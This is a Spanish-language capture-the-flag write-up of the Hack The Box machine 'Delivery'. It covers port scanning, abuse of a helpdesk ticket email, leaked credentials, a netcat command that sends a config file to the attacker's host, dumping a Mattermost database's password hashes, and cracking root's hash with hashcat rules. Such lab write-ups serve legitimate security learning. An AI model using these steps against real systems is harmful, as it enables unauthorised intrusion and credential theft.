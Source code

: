 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/DELIVERY.webp)


# DELIVERY [HACKTHEBOX] / Easy
### (Host Enumeration, Support Ticket System Exploitation, Information Leakage, SQL Database Enumeration, Hash Cracking, Hashcat Rules for BruteForce)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# NMAP Scan

Empezamos haciendo un escaneo de nmap con los siguientes argumentos:

```bash
nmap -p- --open -sS -sCV -T5 10.10.10.222 -n -Pn -vvv -oN escaneo_nmap
```

Nos encuentra varios puertos abiertos:

![image](../zimages/Pasted_image_20241117232318.png)

Si nos metemos en la web (puerto 80) y pinchamos donde pone "HelpDesk", nos lleva a un dominio el cual no nos conecta:

![image](../zimages/Pasted_image_20241117232430.png)

Nos tendremos que ir a /etc/hosts y añadirlo, una vez hecho, ya nos muestra el contenido:

![image](../zimages/Pasted_image_20241118000804.png)

# Web Enumeration

Si le damos a "Open a New Ticket", nos sale esto:

![image](../zimages/Pasted_image_20241118012424.png)

Después de poner datos aleatorios y darle a "Create Ticket", nos sale el siguiente mensaje:

![image](../zimages/Pasted_image_20241118012444.png)

Ahora vamos a meternos a "Check Ticket Status", poniendo nuestro email y el ID del ticket que acabamos de crear, nos entra en una especie de correo temporal de gestión de tickets:

![image](../zimages/Pasted_image_20241118012723.png)

Ahora que tenemos esto, si recordamos el mensaje que nos puso cuando creamos el ticket, vimos que creaba un email con el número de id para la gestión del ticket, es decir, puede ser que tengamos un posible correo al cual le lleguen mensajes y nos los ponga como respuesta a nuestro ticket. 

Si nos fijamos en el escaneo de nmap, vemos que hay un 3er puerto abierto (8065), nos metemos en la web y nos aparece un panel de login, también nos da una opción a registrarnos, como tenemos un posible email, vamos a darle y metemos nuestros datos con el email que se creó:

![image](../zimages/Pasted_image_20241118012853.png)

Una vez le damos a "Create Account", nos sale este mensaje:

![image](../zimages/Pasted_image_20241118013224.png)

Si ahora nos vamos a la web donde tenemos el ticket activo y recargamos, vemos que tenemos una nueva respuesta, que en verdad es el correo de confirmación que se envió:

![image](../zimages/Pasted_image_20241118013240.png)

# User Flag

En el correo hay un link, vamos a meternos:

![image](../zimages/Pasted_image_20241118013534.png)

Una vez metida la contraseña, seleccionamos el grupo "internal" y nos aparece esto:

![image](../zimages/Pasted_image_20241118013555.png)

Ahora que tenemos unas posibles credenciales, vamos a intentar entrar por ssh, que era otro de los puertos que había abiertos:

![image](../zimages/Pasted_image_20241118014300.png)

Ya tendríamos la flag de user en su directorio personal.

# PRIVESC / Root Flag

Ahora vamos a enumerar más usuarios del sistema mediante el siguiente comando:

```bash
cat /etc/passwd | grep "sh$"
```

Nos muestra a 'root', 'maildeliverer' y 'mattermost':

![image](../zimages/Pasted_image_20241118041947.png)

Vamos a intentar buscar información de mattermost en el sistema, para ello, utilizamos el siguiente comando:

```bash
find / 2>/dev/null | grep -i mattermost
```

Y este es el output:

![image](../zimages/Pasted_image_20241118042127.png)

Son muchas líneas y difíciles de leer, vamos a modificar el output para que nos ponga sólo lo que queremos ver:


```bash
find / 2>/dev/null | grep -i mattermost | grep -vE "sys|prepacked|cgroup|plugins|templates|client|i18n|fonts"
```

Ahora mejor:

![image](../zimages/Pasted_image_20241118042154.png)

Si nos fijamos en las rutas que nos saca, vemos una que nos llama la atención:

`/opt/mattermost/config` 

También podríamos haber ejecutado el siguiente comando para descubrirlo:

`ps -faux | grep -i mattermost`

Si nos metemos y listamos, vemos un archivo "config.json"

![image](../zimages/Pasted_image_20241118042409.png)

Al leerlo nos aparece todo en blanco y es complicado de leer, para verlo mejor, vamos a utilizar netcat para pasarnos el output a nuestra máquina víctima:

```bash
cat config.json | nc 10.10.16.2 4443
```

Nos ponemos en escucha y le concatenamos `jq` para verlo mejor. Si nos fijamos en el output, vemos algo que nos llama la atención:

![image](../zimages/Pasted_image_20241118044435.png)

Ahora que tenemos otras credenciales (`mmuser:Crack_The_MM_Admin_PW`) de lo que parece ser una base de datos, vamos a intentar entrar:

```bash
mysql -u mmuser -p
```

Y nos saca esto:

![image](../zimages/Pasted_image_20241118044604.png)

Vamos a entrar en la base de datos "mattermost" y listar las tablas:

```bash
use mattermost
show tables;
```

Una vez listadas, vemos que hay una que se llama "Users", vamos a ver que tablas contiene describiéndola:

```bash
describe Users;
```

Como hay muchas tablas, vamos a seleccionar sólo las que nos interesan:

```bash
select Username, Password from Users;
```

Ahora ya tenemos lo que queremos, son hashes de las contraseñas de los usuarios de la web "mattermost". Si nos fijamos hay un hash de root:

![image](../zimages/Pasted_image_20241118044846.png)

Recordando la web de Mattermost, había un mensaje en el chat interesante y relacionado con esto:

![image](../zimages/Pasted_image_20241118045007.png)

Ahora ya tenemos todo lo que necesitamos para ser root, vamos a guardar el hash en un archivito:

![image](../zimages/Pasted_image_20241118045037.png)

Y la palabra en la cual nos vamos a basar para hacer un ataque con hashcat:

![image](../zimages/Pasted_image_20241118045140.png)

Vamos a buscar que tipo de hash es para poder hacer la fuerza bruta:

```bash
hashcat --example-hashes | grep '$2a' -B 11
```

Y este es el modo que queremos:

![image](../zimages/Pasted_image_20241118045247.png)

Ahora, con hashcat, vamos a realizar un ataque de fuerza bruta utilizando el diccionario de reglas "rockyou-30000", que contiene varias reglas para crear un diccionario basándose en la palabra que le hemos indicado ("PleaseSubscribe!"):

```bash
hashcat -m 3200 -a 0 -r /usr/share/hashcat/rules/rockyou-30000.rule hash base_password
```

Esperamos un rato y nos saca la contraseña sin problemas:

![image](../zimages/Pasted_image_20241118045426.png)

Ahora si volvemos a la máquina víctima, podemos probar a convertirnos en root con esa contraseña:

![image](../zimages/Pasted_image_20241118045512.png)

Una vez somos root, solo nos queda irnos al directorio '/root' y ver la flag.

# ./ROOTED

![image](../zimages/Pasted_image_20241118045635.png)


